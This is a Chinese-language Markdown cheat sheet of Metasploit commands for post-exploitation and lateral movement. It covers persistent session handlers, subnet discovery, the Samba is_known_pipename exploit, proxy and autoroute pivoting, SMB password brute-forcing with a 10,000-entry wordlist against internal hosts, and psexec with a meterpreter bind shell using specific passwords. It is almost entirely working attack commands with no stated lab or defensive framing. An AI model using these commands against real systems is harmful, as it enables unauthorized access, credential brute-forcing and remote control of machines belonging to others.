




## 持续监听

```
其中set exitonsession false
run -zj 
保证了我们可以持久化接受sessions会话
```


## 会话命名

```
sessions -i x -n xxx
```




## 网段信息收集

```
run get_local_subnets
```



即当前session会话主机处于10.10.135.0/24网段中

类似与

```
hostname -I
ip a
```


## win6.1

linux版永恒之蓝

```
exploit/linux/samba/is_known_pipename  
```


## 代理

```
set proxies xxx:ip:port
```

```
set proxies socks5:192.168.1.1:2000
```


## 路由

```
run post/multi/manage/autoroute
```

添加路由


## win环境乱码

```
shell
chcp 65001
```




## smb服务

爆破smb服务

```
search smb_login
use 0
show options
```



其中要设置目标主机

密码字典

线程

用户名

并取消输出结果

```
set rhost 192.168.93.10 192.168.93.20 192.168.93.30
set pass_file /home/ra1n3/top10000.txt
set smbuser administrator
set threads 50
set verbose no
run
```


接着可以利用psexec上线

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set smbuser administrator
set smbpass 123qwe!ASD
set rhost 192.168.93.20
run
```

```
set smbdomain TEST.ORG
set SMBpass zxcASDqw123!!
set rhosts 192.168.93.10
run
```

无法出网的情况要正向连接

